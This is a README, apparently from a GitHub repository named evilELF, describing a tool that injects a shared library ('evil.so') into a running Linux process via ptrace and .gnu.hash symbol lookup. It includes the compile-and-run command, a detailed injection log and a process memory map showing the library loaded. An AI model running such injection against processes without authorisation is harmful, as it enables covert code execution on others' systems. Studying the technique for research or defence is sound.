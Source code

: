 # evilELF
Malicious use of ELF such as .so inject, func hook and so on.

## injectso

具体参考, [linux进程动态so注入](https://github.com/jmpews/dev2pwn/blob/master/linux%E8%BF%9B%E7%A8%8B%E5%8A%A8%E6%80%81so%E6%B3%A8%E5%85%A5.md)

实现恶意 `so` 注入, 采用直接解析 `ELF` 文件的方式, 更加具有通用性, 并以 `.gnu.hash` 进行符号查找, 适用于目前的 `ELF` 结构.

`injectso` 参考 `glibc-2.19`, 用 `ElfW` 宏进行 `32` 和 `64` 字长兼容(目前有一个函数还没有做到 `64` 兼容, 有时间改下).

#### usage

```
➜  inject gcc -w -o inject /vagrant/inject/inject.c /vagrant/inject/utils.c && sudo ./inject 24506 /vagrant/inject/evil.so
attached to pid 24506
[*] start search '__libc_dlopen_mode':
----------------------------------------------------------------
[+] libaray path: /lib/i386-linux-gnu/libc.so.6
[+] gnu.hash:
        nbuckets: 0x3f3
        symndx: 0xa
        nmaskwords: 0x200
        shift2: 0xe
        bitmask_addr: 0xb75281c8
        hash_buckets_addr: 0xb75289c8
        bitmask_addr: 0xb75281c8                                                                                                                                     [0/1762]
        hash_buckets_addr: 0xb75289c8
        hash_values_addr: 0xb7529994
[+] dynstr: 0xb7535474
[+] dynysm: 0xb752bed4
[+] soname: libc.so.6
[*] start gnu hash search:
        new_hash: 0x8049891(4073429154)
        n: 197
        hash buckets index: 0x3c6(966), first dynsym index: 0x8f5(2293)
[*] start bucket search:
        h2: 0xd5e07632(3588257330)
        h2: 0xf2cb98a2(4073429154)
----------------------------------------------------------------
[+] Found '__libc_dlopen_mode' at 0xb764bae0
[+] entry point: 0x8048350
[+] stopped 24506 at eip:0xb76e1428, esp:0xbfec2fec
[+] inject code done 24506 at eip:0x8048366
[*] start search 'evilfunc':
----------------------------------------------------------------
[+] libaray path: /vagrant/inject/evil.so
[+] gnu.hash:
        nbuckets: 0x3
        symndx: 0x7
        nmaskwords: 0x2
        shift2: 0x6
        bitmask_addr: 0xb76db148
        hash_buckets_addr: 0xb76db150
        hash_values_addr: 0xb76db15c
[+] dynstr: 0xb76db244
[+] dynysm: 0xb76db174
[*] start gnu hash search:
        new_hash: 0x80498ec(701380385)
        n: 1
        hash buckets index: 0x2(2), first dynsym index: 0xb(11)
[*] start bucket search:
        h2: 0x29ce3720(701380384)
----------------------------------------------------------------
[+] Found 'evilfunc' at 0xb76db53b
[*] lib injection done!

#查看pid对应maps可以查看到已经加载了恶意的so
➜  inject cat /proc/24506/maps
08048000-08049000 r-xp 00000000 08:01 266876     /home/vagrant/pwn/elf/hello
08049000-0804a000 r--p 00000000 08:01 266876     /home/vagrant/pwn/elf/hello
0804a000-0804b000 rw-p 00001000 08:01 266876     /home/vagrant/pwn/elf/hello
084a2000-084c3000 rw-p 00000000 00:00 0          [heap]
b7527000-b7528000 rw-p 00000000 00:00 0
b7528000-b76d0000 r-xp 00000000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b76d0000-b76d1000 ---p 001a8000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b76d1000-b76d3000 r--p 001a8000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b76d3000-b76d4000 rw-p 001aa000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b76d4000-b76d7000 rw-p 00000000 00:00 0
b76db000-b76dc000 r-xp 00000000 00:1a 1974       /vagrant/inject/evil.so
b76dc000-b76dd000 r--p 00000000 00:1a 1974       /vagrant/inject/evil.so
b76dd000-b76de000 rw-p 00001000 00:1a 1974       /vagrant/inject/evil.so
b76de000-b76e1000 rw-p 00000000 00:00 0
b76e1000-b76e2000 r-xp 00000000 00:00 0          [vdso]
b76e2000-b7702000 r-xp 00000000 08:01 2153       /lib/i386-linux-gnu/ld-2.19.so
b7702000-b7703000 r--p 0001f000 08:01 2153       /lib/i386-linux-gnu/ld-2.19.so
b7703000-b7704000 rw-p 00020000 08:01 2153       /lib/i386-linux-gnu/ld-2.19.so
bfea3000-bfec4000 rw-p 00000000 00:00 0          [stack]
➜  inject
```

#### 参考链接:

[PWN之ELF解析](https://github.com/jmpews/dev2pwn/blob/master/PWN%E4%B9%8BELF%E8%A7%A3%E6%9E%90.md)

[linux进程动态so注入](https://github.com/jmpews/dev2pwn/blob/master/linux%E8%BF%9B%E7%A8%8B%E5%8A%A8%E6%80%81so%E6%B3%A8%E5%85%A5.md)

#### 利用点

TODO

